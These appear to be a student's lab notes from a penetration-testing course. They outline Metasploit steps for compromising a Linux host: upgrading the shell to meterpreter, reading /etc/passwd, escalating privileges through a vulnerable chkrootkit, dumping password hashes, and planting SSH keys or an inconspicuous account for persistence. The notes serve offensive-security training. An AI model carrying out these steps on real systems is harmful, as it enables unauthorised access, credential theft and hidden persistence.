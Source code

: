 * msfcommands to show collected information
    * loot: all sensitive information collected by msfconsole
    * notes: information collected with post exploitation modules

### Linux privilege Escalation:Exploiting a vuln program

* Gain access to target:
    * SSH creds were given for lab
    * use auxiliary/scanner/ssh/ssh_login
        * set USERNAME <user>; set PASSWORD <pass>
        * this results in a cmd shell
    * upgrade the cmd shell to meterpreter (ignore the errors). This is required for most of the metasploit post exploitation modules
        * sessions -u <id>
    * from meterpreter, perform local recon
        * whoami
        * uname -a
        * cat /etc/passwd
        * ifconfig
        * ps aux
            * identified a program started by root
                * cat /bin/check_down reveals that it is a script running chkrootkit
        * chkrootkit < .5v are vulnerable to priv esc vuln
        * ctrl+z
    * search chkrootkit
        * use exploit/unix/local/chkrootkit
        * provide the path to chkrootkit binary
        * set LHOST; set LPORT; run (Ignore the errors)
        * this results in a privileged cmd shell

### Dumping hashes with Hashdump

* after meterpreter session has been established
* use  post/linux/gather/hashdump
    * set SESSION <id>
    * run
* the hashes are present in loot
    * loot: will provide the hashdump

### Establishing persistance on linux

* Depends on linux distribution
* step 1: gain access to system, lab showed exploitation of samba vulnerability
    * this results in a cmd shell
    * upgrade the cmd shell to meterpreter
        * sessions -u 1
* step 2: priv esc. The lab had a vulnerable chkrootkit running
    * use exploit/unix/local/chkrootkit
        * this results in a elevated cmd shell
        * upgrade the cmd to meterpreter
            * sessions -u 3
* Step 3 persistence:
    * manual:
        * option 1: create a user account and setup ssh with password/public key auth. The main thing here is not to stand out, try to setup as if it is a service account.
        * option 2: add ssh keys to existing account. Probably a better approach.
    * metasploit:
        * search platform:linux persistence --> The persistence modules on linux are hit and miss because of the various linux distributions. It will a lot of trial and error
        * post/linux/manage/sshkey_persistence --> was a success, it automates addition of public keys to linux users
